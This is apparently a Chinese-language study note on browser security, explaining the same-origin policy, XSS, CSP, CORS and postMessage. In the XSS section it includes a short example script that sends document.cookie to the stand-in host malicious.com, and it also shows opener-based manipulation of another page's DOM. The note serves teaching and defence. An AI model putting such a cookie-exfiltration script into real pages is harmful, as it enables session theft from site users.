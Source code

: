 * `浏览器安全可以分为三大块—— Web页面安全  浏览器网络安全 和 浏览器系统安全`

* `在没有安全保障的Web世界中,我们是没有隐私的,因此需要安全策略来保障我们的隐私和数据安全。`
* 页面中最基础、最核心的安全策略:`同源策略(Same-origin-policy)`

# 什么是同源策略

* `如果两个URL的协议、域名 和 端口号都相同,我们就称这两个URL同源。`
* 浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM,那么会有一套基础的安全策略的制约,我们把这称为同源策略。

* 具体来讲,同源策略主要表现在DOM Web数据和网络这三个层面。

1. `DOM层面`。同源策略限制了来自不同源的javascript脚本对当前DOM对象读取和写的操作

```

{
let pdom = opener.document
pdom.body.style.display = "none"
}

```
* 对象opener 就是指向第一个页面的window对象,我们可以通过操作opener来控制第一个页面中的DOM
* 不同源页面两个页面不能相互操作DOM  
```

Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.

```
2. 数据层面同源策略限制了不同源的站点读取当前站点的Cookie  IndexDB  LocalStorage等数据。
3. 网络层面。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。

# 安全和便利性的权衡
* 浏览器出让了同源策略的哪些安全性?
1. 页面中可以嵌套第三方资源
* 最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。脚本就可以篡改页面,获取页面敏感数据,如Cookie IndexDB LocalStorage等数据通过XSS的手段发送给服务器。
```
   
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()

```
* 为了解决XSS攻击,浏览器中引入了内容安全策略,称为`CSP`。`CSP的核心思想是让服务器决定浏览器能够加载哪些资源,让服务器决定浏览器是否能够执行内联JS代码。` 可以减少XSS攻击。
2. 跨域资源共享和跨文档消息机制
* `跨域资源共享(CORS)` 使用该机制可以进行跨域访问控制,从而使跨域数据传输得以安全进行。
* 浏览器引入 `跨文档消息机制` 可以通过window.postMessage的js接口来和不同源的DOM进行通信。

# 总结
* 同源策略会隔离不同源的DOM 页面数据和网络通信  进而实现Web页面的安全性。

* 在安全和便利之间权衡,得到的安全策略原型。总结起来，它具备以下三个特点：
1. 页面中可以引用第三方资源,不过这也暴露了很多诸如XSS的安全问题,因此又在这种开放的基础上引入了CSP来限制其自由度。
2. 使用XMLHttpRequest和Fectch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础上引入了`跨域资源共享策略` 让其可以安全进行跨域操作。
3. 两个不同源的DOM是不能相互操作的,因此,浏览器中又实现了跨文档消息机制(window.postMessage)，让其可以比较安全地通信。